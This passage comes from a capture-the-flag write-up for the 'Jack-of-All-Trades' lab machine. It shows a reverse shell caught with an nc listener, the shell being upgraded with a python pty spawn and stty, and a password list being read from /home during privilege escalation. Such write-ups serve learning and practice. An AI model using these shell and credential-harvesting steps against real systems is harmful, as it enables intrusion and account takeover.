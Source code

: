   ```
  www-data@jack-of-all-trades:/var/www/html/nnxhweOV$
  ```
  
- Connected, I changed it to my beloved Putty shell and started looking for flags.

  ```
  which python
  /usr/bin/python
  
  www-data@jack-of-all-trades:/var/www/html/nnxhweOV$ python -c 'import pty; pty.spawn("/bin/bash")'
  <:/var/www/html/nnxhweOV$ python -c 'import pty; pty.spawn("/bin/bash")'     
  www-data@jack-of-all-trades:/var/www/html/nnxhweOV$ ^Z
  zsh: suspended  nc -lvnp 4444
                                                                                                                      
  stty raw -echo; fg
  [1]  + continued  nc -lvnp 4444
                                 export TERM=xterm
  www-data@jack-of-all-trades:/var/www/html/nnxhweOV$ whoami
  www-data
  ```

---

## 🧍 User Privilege Escalation

- I did some digging around after getting access, but `jack` directory was locked, couldn't access it, but when I checked the other file in /home directory `jacks_password_list` I got a list of few different passwords. Surely one is Jack's legit password right?

  ```
  www-data@jack-of-all-trades:/home$ cat jacks_password_list
  *hclqAzj+2GC+=0K
  eN<A@n^zI?FE$I5,
  X<(@zo2XrEN)#MGC
  ,,aE1K,nW3Os,afb
  ITMJpGGIqg1jn?>@
  0HguX{,fgXPE;8yF
  sjRUb4*@pz<*ZITu
  [8V7o^gl(Gjt5[WB
  yTq0jI$d}Ka<T}PD
  Sc.[[2pL<>e)vC4}
  9;}#q*,A4wd{<X.T
  M41nrFt#PcV=(3%p
  GZx.t)H$&awU;SO<
  .MVettz]a;&Z;cAC
  2fh%i9Pr5YiYIf51
  TDF@mdEd3ZQ(]hBO
  v]XBmwAk8vk5t3EF
  9iYZeZGQGG9&W4d1
  8TIFce;KjrBWTAY^
  SeUAwt7EB#fY&+yt
  n.FZvJ.x9sYe5s5d
  8lN{)g32PG,1?[pM
  z@e1PmlmQ%k5sDz@
  ow5APF>6r,y4krSo
  www-data@jack-of-all-trades:/home$ 
  ```
  